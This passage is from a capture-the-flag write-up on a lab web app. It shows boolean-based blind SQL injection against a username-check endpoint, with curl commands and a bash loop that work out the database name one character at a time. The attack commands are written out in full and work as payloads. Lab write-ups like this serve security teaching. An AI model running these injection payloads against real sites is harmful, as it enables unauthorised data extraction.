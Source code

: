 Let’s see if the first character is equal to s:

**Kali**

```
curl "http://$VICTIM/register/user-check?username=admin' AND (ascii(substr((select database()),1,1))) = 115 --+"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

False tells us the letter isn’t available, or in other words there is a match. So we’ve confirmed the first character is s, let’s check for q. I also made this one liner to loop through all uncaptalize letters to make it easier.

**Kali**

```
for (( i=0; i<=255; i++ )); do curl "http://$VICTIM/register/user-check?username=admin' AND (ascii(substr((select database()),2,1))) = $i  --+" && echo "Val: $i";  done
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I kept doing this until the last eighth character. Writing down the results to convert to ASCII

**Kali**

```
for (( i=0; i<=255; i++ )); do curl "http://$VICTIM/register/user-check?username=admin' AND (ascii(substr((select database()),8,1))) = $i  --+" && echo "Val: $i";  done
```

Link: [https://onlinetools.com/ascii/convert-decimal-to-ascii](https://onlinetools.com/ascii/convert-decimal-to-ascii)

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We’ve confirmed the database is called sqhell\_3. Next we would use the same technique to get the table names in the database, of course that would be a long a laborious process. Used this script to get the flag.
